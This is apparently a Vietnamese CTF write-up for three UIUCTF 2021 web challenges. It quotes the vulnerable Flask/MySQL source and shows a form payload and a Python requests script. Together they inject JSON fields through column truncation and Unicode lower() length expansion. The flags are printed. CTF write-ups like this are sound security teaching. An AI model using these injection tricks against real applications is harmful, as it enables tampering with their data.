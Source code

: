 # ================= UIUCTF 2021 =================

### wasmbaby - 50pts  
  
Challenge khá đơn giản vì là warmup, chỉ cần `Ctrl + Shift + I` để ` inspect element` vào phần `Source` để xem source của trang, trong đó có file `index.wasm` và flag nằm ở dưới cùng của file đó.  
  
![img](./imgs/1.png)  
  
Flag: `uiuctf{welcome_to_wasm_e3c3bdd1}`  
  
### ponydb - 112pts  
  
[Source code](https://uiuc.tf/files/727b10ed82902f914153fd781e8711dd/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjQ4fQ.YQe3Ng.TjZr4KWts3_vs_a2z9WNw7zmqcc)  
   
File `templates/ponies.html` có nội dung như sau   
```html
<!-- ponies.html -->
...
<body>
		{% if get_flashed_messages() %}<p>Error: {{ get_flashed_messages()[0] }}</p>{% endif %}
		<h1>Ponies</h1>
		{% for pony in ponies %}
		<h2>{{ pony["name"] }}</h2>
		<img height=200 src="{{ pony['image'] }}">
		{% for favorite in pony['favorites'] %}
		<p>Favorite {{ favorite }}: {{ pony['favorites'][favorite] }}</p>
		{% if favorite == 'number' and pony['favorites'][favorite] == 1337 %}
		<p>Favorite flag: {{ flag }}</p>
		{% endif %}
		{% endfor %}
		<p>{{ pony["bio"] }}</p>
		{% endfor %}
		<h1>Add a pony!</h1>
...
```  
ta dễ dàng thấy để có được `flag` thì phải pass được điều kiện ` if favorite == 'number' and pony['favorites'][favorite] == 1337`, lúc này phải phụ thuộc vào `favorites` cho nên tới đây ta audit tiếp xem `favorites` là cái chi???  
  
Từ `ponydb.py` ta thấy dòng code:  
```python3  
...  
cur.execute(f"SELECT * FROM `ponies` WHERE session='{session['id']}'")  
for (name, bio, image, data, _) in cur:
		ponies.append({"name": name, "bio": bio, "image": image, "favorites": json.loads(data)})
...
```  
thì ta nhận ra là `favorites` là một object được load từ chuỗi json nào đó được lấy ra từ database. Nhưng để dễ hiểu hơn thì mình tiến hành debug ở local từ source mà tác giả đã cung cấp.  
![img](./imgs/2.png)  
  
Cột `favorites` là một chuỗi json được tạo ra do lấy từ input của user khi post lên server.  
Và một điều bất thường trong source code `ponydb.py` ở enpoint `/pony` sau khi audit là:  
  
```python3  
...
@app.route('/pony', methods=['POST'])
def add():
	error = None

	name = request.form['name']
	if "'" in name: error = 'Name may not contain single quote'
	if len(name) > 64: error = 'Name too long'

	bio = request.form['bio']
	if "'" in bio: error = 'Bio may not contain single quote'
	if len(bio) > 256: error = 'Bio too long'

	image = request.form['image']
	if "'" in image: error = 'Image URL may not contain single quote'
	if len(image) > 256: error = 'Image URL too long'

	favorite_key = request.form['favorite_key']
	if "'" in favorite_key: error = 'Custom favorite name may not contain single quote'
	if len(favorite_key) > 64: 'Custom favorite name too long'      # Chổ này chỉ check mà không gán error

	favorite_value = request.form['favorite_value']
	if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'     # Chổ này cũng chỉ check cho vui :))))

	word = request.form['word']
	if "'" in word: error = 'Word may not contain single quote'
	if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'

	number = int(request.form['number'])
	if number >= 100: error = "Ponies can't count that high"
	if number < 0: error = "Ponies can't count that low"

	if error: flash(error)
...
```
Không như các param `word, name, bio, image`, 2 param `favorite_key và favorite_value` check length của input chỉ để cho vui mà không gán giá trị lại cho biến `error` khi không thoã điều kiện :))).  
  
Và một điều khá quan trọng nữa ở chổ  
```python3  
config = {
	'host': 'localhost',
	'user': 'root',
	'password': 'REDACTED',
	'database': 'ponydb',
	'sql_mode': 'NO_BACKSLASH_ESCAPES'
}
```
tác giả đã cố tình `override sql_mode` thành `NO_BACKSLASH_ESCAPES` để disable `STRICT_TRANS_TABLES` theo mặc định, nghĩa là khi `chuỗi dữ liệu quá dài` so với `độ dài mặc định ` đã được định nghĩa cho column của table nào đó thay vì trả ra error thì nó sẽ bị `truncate` đi.  
  
Ngoài ra, ta còn biết được cấu trúc của bảng  
```python3
...
try: cursor.execute('CREATE TABLE `ponies` (`name` varchar(64), `bio` varchar(256), '
                    '`image` varchar(256), `favorites` varchar(256), `session` varchar(64))')
...                  
```              
Độ dài chuỗi của cột `favorites` là `256`, chain các điều kiện ở trên lại thì ta có ý tưởng để giải bài này là input một chuỗi ở param `favorite_value` (hoặc có thể dùng param `favorite_key`) có độ dài vượt quá 256 để bị truncate, đồng thời vì ký tự `"` không bị filter, nên ta có thể chèn lại giá trị cho `number` thành `1337` để lấy flag.  
  
Payload:
```txt
name=nhienit&image=imaget&favorite_key=color&favorite_value=redaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaredaaaaaaaaaaaaaaaaa","number":1337}&word=antidisestablishmentarianis&number=11&bio=123
```  
![img](./imgs/3.png)  
  
Và flag hiện ra XD  
  
![img](./imgs/4.png)    
  
Flag: `uiuctf{My_l33tle_p0ny_5fb234}`  
  
## miniaturehorsedb - 417pts  
  
[Source code](https://uiuc.tf/files/684fe65529f3dafedc7f81d6283c91d4/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMDcyLCJ0ZWFtX2lkIjoxNTUsImZpbGVfaWQiOjU1fQ.YQfBeQ.0TybIzxbLPPcDsWg39rfflTchqM)    
  
Thật ra source code bài này cũng không khác gì mấy so với bài `ponydb` chỉ là chổ check length đã được fix :)))  
```python3  
...
favorite_value = request.form['favorite_value']
if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
if len(favorite_value) > 64: error = 'Custom favorite too long'		# Biến error đã được gán

word = request.form['word']
if "'" in word: error = 'Word may not contain single quote'
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'	# Biến error đã được gán
...
```  
  
Dạo quanh discord thì nhận được hint của tác giả:  
```python3
>>> len(chr(304).lower())
2
```

Ok tới đây là hiểu rồi, với ký tự có ascii là `304` thì sau khi `lower()` sẽ thành 2 ký tự do đó nên có chiều dài là 2. Nhìn vào source code thì ta thấy có 2 chổ sử dụng hàm `lower()` này là `favorite_key.lower()` và `word.lower()`. Nếu ta sử dụng 64 ký tự `chr(304)` (chỉ cho phép là 64 ký tự) thì ta sẽ có 128 ký tự được tạo ra sau khi đi qua hàm `lower()`, cộng thêm với 64 ký tự `favorite_value` nữa là chỉ 192 ký tự => vẫn chưa đủ để bị `truncate`. Vì thế, ta phải tận dụng thêm 28 ký tự của param `word` nữa, tất cả là do:  
  
```python3
if len(word) > len('antidisestablishmentarianism'): error = 'Word too long'
```  
Với `len('antidisestablishmentarianism') = 28`, nên tổng sẽ được sẽ được 248, cộng thêm các ký tự như `{`, `}`, `"`, `:` theo syntax của json thì sẽ hơn 256 ký tự.  
  
Sau một lúc debug và tính toán thì được cái script để send payload:  
  
```python3
import requests

url = 'http://miniaturehorsedb.chal.uiuc.tf/pony'
r = requests.Session()

data = {
    'name' : 'name',
    'image': 'image',
    'favorite_key' : chr(304) * 64,
    'favorite_value': '","number":1337,"a":"' + chr(304) * (64 - len('","number":1337,"a":"')),
    'word' : chr(304) * 22 + 'aaa"}',
    'number': 11,
    'bio' : 'bio'
}

cookies = {
        'session': '.eJwNytENwCAIBcBdmABR5NltikDiDE13b-_7HjpBF2GlYG_k4lZARUoXQEU9PaKP0h1sqc0n6_A_Vjfca4jVFND7Ae5QFAc.YQfrhQ.UMwPh5qAN8BS2zIXLte6E-h7Az4'
}

resp = r.post(url, data=data, cookies = cookies) #, proxies = proxy)
```  
Dữ liệu trong database lúc này sẽ có dạng như sau:  
![img](./imgs/5.png)  
  
Refresh và có flag XD  
  
![img](./imgs/6.png)  
  
Flag: `uiuctf{wh0ops_th1s_on3_was_harder_r1ght_9fa2b}`  
  
